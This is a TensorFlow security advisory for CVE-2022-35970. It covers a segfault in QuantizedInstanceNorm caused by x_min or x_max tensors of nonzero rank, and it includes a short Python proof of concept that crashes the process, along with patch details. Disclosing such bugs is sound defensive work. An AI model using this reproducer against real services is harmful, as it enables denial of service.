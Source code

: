 ## TFSA-2022-102: Segfault in `QuantizedInstanceNorm`

### CVE Number
CVE-2022-35970

### Impact
If `QuantizedInstanceNorm` is given `x_min` or `x_max` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

output_range_given = False
given_y_min = 0
given_y_max = 0
variance_epsilon = 1e-05
min_separation = 0.001
x = tf.constant(88, shape=[1,4,4,32], dtype=tf.quint8)
x_min = tf.constant([], shape=[0], dtype=tf.float32)
x_max = tf.constant(0, shape=[], dtype=tf.float32)
tf.raw_ops.QuantizedInstanceNorm(x=x, x_min=x_min, x_max=x_max, output_range_given=output_range_given, given_y_min=given_y_min, given_y_max=given_y_max, variance_epsilon=variance_epsilon, min_separation=min_separation)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
